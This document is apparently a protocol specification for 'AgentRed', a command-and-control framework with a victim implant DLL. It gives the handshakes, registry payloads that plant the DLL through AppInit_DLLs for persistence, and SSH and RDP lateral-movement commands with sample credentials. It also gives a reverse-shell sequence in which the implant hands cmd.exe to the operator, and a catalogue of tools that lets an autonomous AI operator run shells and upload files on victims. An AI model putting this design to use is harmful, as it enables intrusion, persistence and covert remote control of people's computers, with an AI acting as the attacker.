

# AgentRed: Wire Protocol & API Specification

> **Educational Reference**: This document defines the wire framing, authentication handshakes, module command payloads, event streaming mechanisms, and out-of-band reverse shell protocols used across AgentRed.

---

## 1. Framing & Transport Layer

### 1.1 TCP Stream & Framing
- **Transport**: Standard TCP (optional TLS via `--certfile` and `--keyfile`).
- **Default Port**: `4444` (C2 relay stream).
- **Framing**: Newline-delimited UTF-8 JSON. Every message is terminated by `\n` (`0x0A`).
- **Buffers**: Handlers read chunks up to 4096 bytes and split on `\n`. Messages can span multiple chunks.

### 1.2 State Machine & Roles



```
[TCP Connect] ──▶ [Unauthenticated State]
                        │
                        ├─{"token":"...", "role":"operator"} ──▶ [Operator Session]
                        │                                          - Submits module commands
                        │                                          - Receives push event stream
                        │
                        └─{"token":"...", "role":"agent"}    ──▶ [Agent Session]
                                                                   - Receives forwarded commands
                                                                   - Emits push events
```

---

## 2. Authentication Handshake

Immediately upon establishing a TCP connection, the client (operator or victim implant) MUST send an authentication object as its first line.

### Operator Handshake
```json
{"token": "<C2_AUTH_TOKEN>", "role": "operator"}
```
*Note: If `"role"` is omitted, `"operator"` is assumed by default.*

**Server Success Response**:
```json
{"status": "ok", "message": "Authenticated as operator"}
```

### Agent (Victim Implant) Handshake
```json
{"token": "<C2_AUTH_TOKEN>", "role": "agent"}
```

**Server Success Response**:
```json
{"status": "ok", "message": "Authenticated as agent"}
```

### Authentication Failure Response
```json
{"status": "error", "message": "Authentication failed"}
```
*(The server immediately terminates the TCP connection following an auth error.)*

---

## 3. Command Routing & Hybrid Dispatch Engine

Once authenticated, operators submit module requests formatted as:
```json
{
  "module": "<module_name>",
  "payload": {
    "action": "<action_name>",
    ...
  }
}
```

### 3.0 Hybrid Dispatch Decision Architecture
`server.py` evaluates the requested `module`:

```
                 Incoming Operator Command
                            │
               Is module in server MODULES?
             (ssh, rdp, registry, activity)
                     /              \
                   YES               NO
                   /                  \
        Execute locally via      Forward via relay_to_agent()
        Python / psutil on       to AppInit_DLLs.dll on victim
        Server Host              (e.g., notify, shell)
                   \                  /
                    ▼                ▼
                 Return Synchronous JSON Response
```

1. **Server-Side Python Modules**: Handled locally by [`activity_module.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/modules/activity_module.py), [`rdp_module.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/modules/rdp_module.py), [`registry_module.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/modules/registry_module.py), or [`ssh_module.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/modules/ssh_module.py).
2. **Victim Implant Modules**: Forwarded over the active TCP connection to `AppInit_DLLs.dll` (`dll.cpp`) via `forward()` with a 30-second response timeout. If no agent is connected, the server immediately returns `{"status": "error", "message": "No agent connected — is the DLL running on the target?"}`.

---

### 3.1 Module: `activity`
Handles system profiling, process inspection, resource monitoring, and network connection auditing.

#### Actions:
- **`sysinfo`**: Queries OS build, architecture, hostname, and uptime.
  - *Response*: `{"status": "ok", "os": "Windows 10 Pro", "build": 19045, "arch": "x64", "computer": "TARGET-PC", "uptime_sec": 84210}`
- **`processes`**: Returns the complete process table via `Toolhelp32`.
  - *Response*: `{"status": "ok", "processes": [{"pid": 4, "name": "System", "threads": 180}, {"pid": 640, "name": "lsass.exe", "threads": 8}]}`
- **`top_cpu` / `top_mem`**: Profiles resource utilization.
  - *Payload*: `{"action": "top_cpu", "n": 5}`
  - *Response*: `{"status": "ok", "top": [{"pid": 1120, "name": "chrome.exe", "cpu_percent": 18.4}]}`
- **`network`**: Returns active TCP listening and established connections via `GetExtendedTcpTable`.
  - *Response*: `{"status": "ok", "connections": [{"proto": "TCP", "local": "192.168.1.50:49210", "remote": "10.0.0.1:4444", "state": "ESTABLISHED"}]}`
- **`monitor_start` / `monitor_stop` / `monitor_get`**: Background CPU and memory threshold monitoring.

---

### 3.2 Module: `registry`
Interacts with the Windows Registry (`winreg` API).

#### Actions:
- **`read`**:
  - *Payload*: `{"action": "read", "root": "HKLM", "path": "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", "key": "ProductName"}`
  - *Response*: `{"status": "ok", "type": "REG_SZ", "value": "Windows 10 Pro"}`
- **`write`**:
  - *Payload*: `{"action": "write", "root": "HKLM", "path": "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", "key": "AppInit_DLLs", "value": "C:\\Users\\Victim\\AppInit_DLLs.dll", "type": "REG_SZ"}`
  - *Response*: `{"status": "ok"}`
- **`list_keys` / `list_values`**: Enumerates subkeys and values under a path.
- **`delete_val` / `delete_key`**: Removes registry entries.

---

### 3.3 Module: `ssh`
Client-side SSH capability in the implant (via `libssh2`) or server-side (via `paramiko`).

#### Actions:
- **`connect`**:
  - *Payload*: `{"action": "connect", "host": "192.168.1.100", "port": 22, "username": "admin", "password": "Password123"}`
  - *Response*: `{"status": "ok", "session_id": 1}`
- **`exec`**:
  - *Payload*: `{"action": "exec", "session_id": 1, "cmd": "uname -a"}`
  - *Response*: `{"status": "ok", "stdout": "Linux target 5.15.0-x86_64 ...", "stderr": ""}`
- **`close` / `list`**: Manages active SSH sessions.

---

### 3.4 Module: `rdp`
Inspects local RDP configuration and initiates remote connections via `mstsc.exe`.

#### Actions:
- **`probe`**:
  - *Payload*: `{"action": "probe", "target": "192.168.1.105"}`
  - *Response*: `{"status": "ok", "target": "192.168.1.105", "port": 3389, "open": true}`
- **`open`**:
  - *Payload*: `{"action": "open", "target": "192.168.1.105", "user": "admin", "domain": "CORP"}`
  - *Response*: `{"status": "ok", "session_id": 1, "target": "192.168.1.105"}`

---

### 3.5 Module: `notify`
Triggers desktop UI notifications and controls event streaming.

#### Actions:
- **`popup`**: Displays a Windows MessageBox dialog on the victim screen.
  - *Payload*: `{"action": "popup", "title": "System Alert", "text": "Scheduled update in progress.", "style": "warning"}`
  - *Response*: `{"status": "ok", "clicked": "OK"}`
- **`balloon`**: Shows a shell tray notification balloon.
- **`start` / `stop` / `status`**: Toggles foreground window hook streaming.

---

## 4. Push Event Telemetry Protocol

Push events originate from the victim agent and are broadcasted by the server to all authenticated operators without request/response locking.

### Event Format:
```json
{
  "event": "window_focus",
  "timestamp": 1773176500,
  "process": "chrome.exe",
  "title": "Corporate Intranet - Sign In",
  "hwnd": 131248
}
```

```json
{
  "event": "notification_seen",
  "timestamp": 1773176550,
  "title": "USB Device Detected",
  "message": "Kingston DataTraveler 3.0 inserted"
}
```

---

## 5. Out-of-Band Direct Reverse Shell Protocol

To support interactive command-line operations without JSON encapsulation delays, the shell channel operates completely out-of-band:

```mermaid
sequenceDiagram
    autonumber
    participant Op as Operator (client.py listener)
    participant Srv as C2 Relay Server (:4444)
    participant Imp as Victim Implant (dll.cpp)
    participant Cmd as Target Shell (cmd.exe)

    Note over Op: 1. Operator binds local listener on port 4445
    Op->>Srv: JSON Command: {"module": "shell", "payload": {"action": "open", "host": "<operator_ip>", "port": 4445}}
    Srv->>Imp: Forwarded via relay_to_agent()
    Imp->>Cmd: Spawns cmd.exe with redirected stdio pipes
    Imp->>Op: 2. Establishes raw TCP connection to <operator_ip>:4445
    Note over Op,Cmd: Direct Duplex Stream Active (VT100 / Raw Bytes)
    Op->>Cmd: "whoami\r\n"
    Cmd-->>Op: "victim-pc\\labuser\r\n"
    Note over Op: Ctrl+] detaches console; socket remains alive
```

- The stream passes directly between the victim socket and the operator terminal.
- Disconnecting the shell does not disrupt the primary C2 JSON stream on port `4444`.

---

## 6. AI Agent Tool Ecosystem

The framework provides two distinct interfaces for automated and AI-driven interactions:

### 6.1 Operational Agent Tool Catalog ([`agent/agent_tools.py`](file:///Users/matanmishali/AntiGravity/AgentRed/agent/agent_tools.py))
Wraps the C2 client for the autonomous AI operator (`agent_tui.py` / `agent.py`). These 38 tools interact directly with live sessions:

| Tool Name | Target Module | Description | Mutating? |
| :--- | :--- | :--- | :--- |
| `sysinfo` | `activity:sysinfo` | Query OS, build, hostname, uptime | No |
| `processes` | `activity:processes` | List all running processes | No |
| `top_cpu` | `activity:top_cpu` | Get top processes by CPU | No |
| `top_mem` | `activity:top_mem` | Get top processes by memory | No |
| `network` | `activity:network` | Get active TCP network connections | No |
| `reg_read` | `registry:read` | Read a Windows registry value | No |
| `reg_list_keys` | `registry:list_keys` | List subkeys of a registry path | No |
| `reg_write` | `registry:write` | Write or create a registry value | **Yes** |
| `reg_delete_val`| `registry:delete_val` | Delete a registry value | **Yes** |
| `ssh_connect` | `ssh:connect` | Open an SSH connection | **Yes** |
| `ssh_exec` | `ssh:exec` | Run a remote command via SSH | **Yes** |
| `rdp_open` | `rdp:open` | Launch an RDP connection session | **Yes** |
| `shell_open` | `shell:open` | Spawn a direct interactive reverse shell | **Yes** |
| `shell_exec` | `shell` channel | Execute command over established reverse shell | **Yes** |
| `file_read` | `shell` channel | Read target file via `type` | No |
| `file_send` | `shell` channel | Upload local file via base64 `certutil` decode | **Yes** |
| `notify_popup` | `notify:popup` | Display a desktop dialog box | **Yes** |

### 6.2 Code Intelligence MCP Server ([`c2_server/mcp/c2_project_mcp.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/mcp/c2_project_mcp.py))
Provides read-only AST parsing, code intelligence, and detection mapping for IDE assistants (Cursor, Claude Desktop, Hermes):
- `project_overview`: Architecture, wire transport, and known code audit notes.
- `list_modules` / `module_detail`: Live source parser indexing every module, action, parameter, and dispatch status.
- `search_code`: Sandboxed regex search across project sources.
- `read_source`: Sandboxed line-numbered source viewer.
- `local_activity`: Safe in-process test harness for local `psutil` profiling.
- `hunting_notes`: ATT&CK mapping and detection engineering references.

---

## 7. Machine-Readable Schema Specification

A formal JSON Schema (Draft-07) defining all wire framing, authentication handshakes, module payloads, and push events is maintained in:

📄 **[`docs/protocol_schema.json`](file:///Users/matanmishali/AntiGravity/AgentRed/docs/protocol_schema.json)**

You can validate any message or batch of messages programmatically:
```python
import json, jsonschema

with open("docs/protocol_schema.json") as f:
    schema = json.load(f)

# Validates handshake, request, response, or push event
jsonschema.validate(instance={"token": "secret123", "role": "operator"}, schema=schema)
```
